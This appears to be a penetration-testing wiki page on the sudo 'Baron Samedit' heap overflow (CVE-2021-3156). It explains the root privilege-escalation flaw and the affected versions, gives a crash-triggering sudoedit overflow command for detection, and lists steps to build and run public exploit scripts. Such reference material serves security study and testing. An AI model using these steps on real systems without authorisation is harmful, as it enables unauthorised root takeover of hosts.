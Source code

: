 ```yaml
---
description: CVE-2021–3156
---
```


# Baron Samedit

## Theory

The "Sudo Baro Samedit" is heap buffer overflow exploit allowing any user to escalate privileges to root. No misconfigurations required, this exploit works with the default settings, for any user regardless of Sudo permissions.

The vulnerability was patched, but it didn’t update the version number for sudo or any other binary. So it’s not possible to tell definitively if a version if vulnerable or not just by version number.It can affects any unpatched version of the sudo program from **1.8.2–1.8.31p2** and **1.9.0–1.9.5p1**

## Practice

{% tabs %}
{% tab title="Enum" %}
To check, you run the following command. If this returns an error message `sudoedit: /: not a regular file`, then it’s vulnerable. If it returns the sudoedit usage, it’s not.

```bash
sudoedit -s /
```

Or with the following command, if the system is vulnerable it will overwrite the heap buffer and crash the process:

```bash
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
```
{% endtab %}

{% tab title="Exploit" %}
We can use the [Sudo Baron Samedit Exploit](https://github.com/worawit/CVE-2021-3156) made by worawit. For Linux distributions that glibc has tcache support and enabled (CentOS 8, Ubuntu >= 17.10, Debian 10) we can use exploit\_nss.py:

```bash
python3 exploit_nss.py
```

For Linux distribution that glibc has no tcache support:

```
python exploit_nss_xxx.py #for specific version
python exploit_userspec.py #Last try
```

Alternativly, we may use the [Sudo Baron Samedit Exploit](https://github.com/blasty/CVE-2021-3156) made by blasty (Ubuntu 18.04.5, Ubuntu 20.04.1, Debian 10.0)\
On the vulnerable host we can do:

```
# Make file from source
make

# Replace 0 by your OS target
./sudo-hax-me-a-sandwich 0 

```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://datafarm-cybersecurity.medium.com/exploit-writeup-for-cve-2021-3156-sudo-baron-samedit-7a9a4282cb31" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}
